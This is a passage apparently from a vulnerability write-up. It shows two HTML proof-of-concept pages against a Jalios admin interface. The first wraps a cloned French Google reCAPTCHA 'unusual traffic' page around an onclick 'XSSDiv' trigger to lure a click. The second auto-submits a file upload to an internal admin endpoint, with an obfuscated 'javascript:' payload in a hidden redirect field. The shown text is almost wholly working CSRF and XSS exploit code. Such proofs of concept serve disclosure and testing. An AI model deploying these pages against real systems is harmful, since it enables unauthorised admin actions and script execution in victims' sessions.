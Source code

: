 ```html
        } 
    </script> 
    <div id="XSSDiv" onclick="trigger()"></div> 

    <div class=container><hr><form action=index id=captcha-form method=post><noscript><div style=font-size:13px>Pour continuer, veuillez activer JavaScript sur votre navigateur Web.</div></noscript><div class=recaptcha-container><div class=checkbox-container><div class=checkbox><span class=checkbox-tick>✔</span></div><span class=checkbox-text>Je ne suis pas un robot</span> <img alt="reCAPTCHA Logo"class=recaptcha-logo src=https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png></div><div class=recaptcha-footer><a href=https://www.google.com/intl/fr/policies/privacy/ >Confidentialité</a> - <a href=https://www.google.com/intl/fr/policies/terms/ >Conditions</a></div></div></form><hr><div class=info><b>À propos de cette page</b><br><br>Nos systèmes ont détecté un trafic exceptionnel sur votre réseau informatique. Cette page permet de vérifier que c'est bien vous qui envoyez des requêtes, et non un robot. <a href=# onclick='document.getElementById("infoDiv").style.display="block"'>Que s'est-il passé ?</a><br><br><div class=info-div id=infoDiv>Cette page s'affiche lorsque Google détecte automatiquement des requêtes émanant de votre réseau informatique qui semblent enfreindre les <a href=//www.google.com/policies/terms/ >Conditions d'utilisation</a>. Le blocage prendra fin peu après l'arrêt de ces requêtes. En attendant, la saisie de l'image CAPTCHA ci-dessus vous permettra de continuer à utiliser nos services.<br><br>Des applications malveillantes, un plug-in de navigateur ou un script qui envoie des requêtes automatiques peuvent être à l'origine de ce trafic. Si vous utilisez une connexion réseau partagée, demandez de l'aide à votre administrateur. Il est possible qu'un autre ordinateur utilisant la même adresse IP soit en cause. <a href=//support.google.com/websearch/answer/86640>En savoir plus</a><br><br>Vous pouvez être invité à saisir les caractères de l'image CAPTCHA si vous utilisez des termes avancés auxquels les robots ont recours ou si vous envoyez des requêtes très rapidement.</div><br>Adresse IP : 2001:811:3dc1:7010:dcb8:5c63:510:571e<br>Heure : 2025-02-24T02:26:44Z<br></div></div> 
</body> 
</html>
```

and the second: *page2.html*
```html
<html> 
    <body> 
    <form id="uploadForm" action="http://172.22.12.128:8001/jalios/admin/deploy/popupSignUpload.jsp" method="POST" enctype="multipart/form-data"> 
      <input type="file" name="file" id="fileInput" /> 
      <input type="hidden" name="redirect" value="javascri&#9;pt&#58;alert&#96;1&#96;" /> 
      <input type="submit" value="Submit request" /> 
    </form> 
    <script> 
        const blob = new Blob(["POC_XSS"], { type: "text/plain" }); 
        const file = new File([blob], `${Math.floor(Math.random() * 1000000)}.txt`, { type: "text/plain" }); 
        const dataTransfer = new DataTransfer(); 
        dataTransfer.items.add(file); 
        const fileInput = document.getElementById("fileInput"); 
        fileInput.files = dataTransfer.files; 
        setTimeout(() => { 
            document.getElementById("uploadForm").submit(); 
        }, 3000); 
    </script> 
    </body> 
</html>
```
